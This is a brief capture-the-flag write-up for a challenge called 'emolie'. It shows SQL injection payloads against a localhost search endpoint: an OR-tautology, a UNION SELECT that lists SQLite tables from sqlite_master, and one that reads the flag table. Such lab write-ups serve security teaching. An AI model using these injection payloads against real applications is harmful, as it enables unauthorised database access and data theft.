

# Writeup for emolie challenge

## Solve

the web application has `Sql Injection` vulnerability for `?q` query parameter in  `/search`


```
http://localhost:1337/search?q=CHERTPERT%22+OR+%221%22=%221%22+--
```

<div align="center">


</div>


The flag stored in another table, for list all tables
> NOTE: the dbms is sqlite3 (emolite -> emo lite)


```
http://localhost:1337/search?q=CHERTPERT%22+UNION+SELECT+sql,NULL+FROM+sqlite_master+--
```

<div align="center">


</div>


```
http://localhost:1337/search?q=CHERTPERT%22+UNION+SELECT+name,description+FROM+flag+--
```

<div align="center">



</div>
